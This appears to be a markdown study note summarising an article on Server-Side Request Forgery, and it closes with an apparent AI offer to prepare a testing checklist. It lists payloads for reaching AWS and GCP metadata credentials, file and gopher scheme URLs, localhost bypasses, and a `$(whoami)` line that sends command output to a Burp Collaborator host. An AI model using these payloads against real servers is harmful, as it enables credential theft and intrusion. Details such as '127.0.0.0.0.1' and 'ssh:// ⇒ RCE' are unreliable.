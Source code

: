 # 🧠 SSRF
**SSRF** (Server‑Side Request Forgery) is a vulnerability where you trick a server into making HTTP requests **on your behalf**.  
If the server can be convinced to fetch a URL you control, you can often make it talk to **internal systems** or **cloud metadata services** that you normally can’t reach.

---

## 🔍 Core Idea
- The app has a feature like:
  ```
  GET /api/v1/fetch?url=https://site.com/image.jpeg
  ```
- You change the `url` parameter to something else — not an image, but an **internal address**.
- The server fetches it, and you get the response.

---

## ☁ Cloud Metadata Targets
Cloud providers expose special internal IPs that return **sensitive instance data**:

| Provider | Metadata IP/Host | Example Sensitive Paths |
|----------|------------------|-------------------------|
| AWS | `169.254.169.254` | `/latest/meta-data/iam/security-credentials` (access keys) |
| GCP | `metadata.google.internal` | `/computeMetadata/v1beta1/instance/service-account/default/token` (tokens) |

If you can make the vulnerable server request these, you can steal credentials.

---

## 🛠 Exploitation Flow (from the article)
1. **Test with your Burp Collaborator URL**  
   Replace the `url` param with something like:
   ```
   http://<your-collaborator>.burpcollaborator.net
   ```
   eg: if you have a website like:`http://example.burpcollaporator.net` ⇒ you can make RCE like :<br>

````http://`whoami`.example.burpcollaporator.net``` OR `http://$(whoami).example.burpcollaporator.net`<br>
   If you see an HTTP/DNS hit, SSRF is confirmed.

2. **Pivot to internal targets**  
   Try:
   ```
   http://169.254.169.254/latest/meta-data/
   ```
   or for GCP:
   ```
   http://metadata.google.internal/...
   ```

3. **Grab sensitive data**
   - AWS: IAM role creds, instance identity docs, hostnames.
   - GCP: Access tokens, SSH keys.
   ### sensitive places for SSRF:

- `?url=file:///etc/passwd`
- `?url=gopher://`
- `?url=ssh://` ⇒ RCE
- `?url=dict://` (dictionary network protocol)
- `?url=ftp://` (file transfer protocol)
- `?url=ldap://` (lightweight directory access protocol)
- `?url=tftp://`

---

## 🧩 Tricks Mentioned
- **Alternate localhost forms**: `127.1`, `127.0.0.0.0.1`, `[::]` if `127.0.0.1` is blocked.
- **Other protocols**: `file:///etc/passwd`, `gopher://`, `ftp://`, `ldap://` — sometimes SSRF lets you hit non‑HTTP services.
- **Weird payloads**: Embedding SSRF in SVG, HTML, or media files to trigger server‑side fetches.
- **Command injection via DNS**: Using backticks or `$()` in subdomains to try RCE if the server resolves them.

---

## 📍 Where to Look for SSRF
The article lists common parameter names:
```
url, uri, link, target, dest, destination, page, path, site, file,
feed, proxy, host, domain, callback, webhook, img, photo, avatar,
upload_url, download, resource, api_url, endpoint, reference_url,
server, next, redir, redirect, return
```
Also:
- Certain HTTP headers (`X-Forwarded-Host`, `Origin`, `Host`).
- Full URL paths in requests.
- Inside uploaded files (HTML, SVG, XML) that the server might parse and fetch from.

---

## 🧠 TL;DR in One Sentence
If you can control a URL that the server fetches, you can make it talk to **internal networks** or **cloud metadata endpoints**, potentially leaking credentials or enabling further attacks.

---
[MEDIUM LINK](https://medium.com/@MohammedMHassan/ssrf-7c3f196e8d45)

If you want, I can make you a **ready‑to‑use SSRF testing checklist** with payloads, bypass tricks, and a step‑by‑step Burp workflow so you can test any target quickly without re‑reading the article each time.  
Do you want me to prepare that?
